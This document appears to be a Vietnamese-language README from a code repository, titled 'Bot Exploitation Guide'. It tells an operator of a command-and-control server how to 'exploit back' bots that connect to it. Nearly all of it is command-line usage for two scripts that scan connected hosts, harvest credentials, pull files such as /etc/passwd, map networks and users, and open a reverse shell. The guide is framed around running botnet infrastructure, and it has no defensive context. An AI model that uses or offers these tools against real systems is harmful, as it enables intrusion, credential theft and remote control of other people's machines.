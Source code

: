 # 🎯 Bot Exploitation Guide

## 🚨 Tình huống: Bot lạ kết nối vào C2

Khi có bot lạ tự động kết nối vào C2 server của bạn, bạn có thể **khai thác ngược lại** để thu thập thông tin và tạo backdoor.

## 🛠️ Các Công Cụ Khai Thác

### 1. **Bot Exploiter** - Khai thác cơ bản
```bash
# Quét bot đang kết nối
python3 scripts/bot_exploiter.py --scan

# Khai thác toàn diện bot
python3 scripts/bot_exploiter.py --exploit 192.168.1.100:7777

# Lấy thông tin hệ thống
python3 scripts/bot_exploiter.py --info 192.168.1.100:7777

# Lấy credentials
python3 scripts/bot_exploiter.py --creds 192.168.1.100:7777

# Lấy thông tin mạng
python3 scripts/bot_exploiter.py --network 192.168.1.100:7777

# Lấy files
python3 scripts/bot_exploiter.py --files 192.168.1.100:7777

# Tạo reverse shell
python3 scripts/bot_exploiter.py --shell 192.168.1.100:7777

# Download file từ bot
python3 scripts/bot_exploiter.py --download 192.168.1.100:7777:/etc/passwd:passwd.txt

# Interactive mode
python3 scripts/bot_exploiter.py --interactive
```

### 2. **Bot Intelligence** - Thu thập thông tin tình báo
```bash
# Thu thập thông tin tình báo toàn diện
python3 scripts/bot_intelligence.py --intel 192.168.1.100:7777

# Thông tin hệ thống
python3 scripts/bot_intelligence.py --system 192.168.1.100:7777

# Thông tin người dùng
python3 scripts/bot_intelligence.py --users 192.168.1.100:7777

# Thông tin processes
python3 scripts/bot_intelligence.py --process 192.168.1.100:7777

# Thông tin mạng
python3 scripts/bot_intelligence.py --network 192.168.1.100:7777

# Thông tin credentials
python3 scripts/bot_intelligence.py --creds 192.168.1.100:7777

# Thông tin malware
python3 scripts/bot_intelligence.py --malware 192.168.1.100:7777
```